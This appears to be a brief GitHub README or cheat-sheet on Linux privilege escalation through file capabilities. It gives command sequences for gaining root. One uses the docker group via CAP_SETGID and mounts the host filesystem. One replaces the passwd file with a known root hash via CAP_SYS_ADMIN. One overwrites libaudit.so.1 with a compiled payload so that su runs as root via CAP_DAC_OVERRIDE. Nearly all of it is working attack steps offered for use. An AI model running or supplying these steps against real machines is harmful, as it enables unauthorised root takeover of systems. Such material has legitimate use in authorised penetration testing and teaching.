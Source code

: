 # CAP_SETGID python

- cat /etc/group
- select docker group id
- use `setgid.py <dockergroupid>`
- finally `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

# CAP_SYS_ADMIN python

cp /etc/passwd ./ #Create a copy of the passwd file
openssl passwd -1 -salt abc password #Get hash of "password"
vim ./passwd #Change roots passwords of the fake passwd file
run cap_sysadmin.py
su root
password

# CAP_DAC_OVERRIDE ld.bfd

- getcap -r / 2>/dev/null
- capsh --print
  - If CAP_DAP_READ is set continue
- find / -perm -04000 -ls 2>/dev/null
- if /bin/su in the list continue
- ldd /bin/su
- objdump -T /bin/su | grep audit
- if "audit_open", "audit_log_user_message" or "audit_log_user_commands" in the output continue
- if /lib/x86_64-linux-gnu/libaudit.so.1 in the list continue
- compile basic privesc C program
- gcc -shared -o /lib/x86_64-linux-gnu/libaudit.so.1 -fPIC exploit.c
- su

Now you can run commands as root
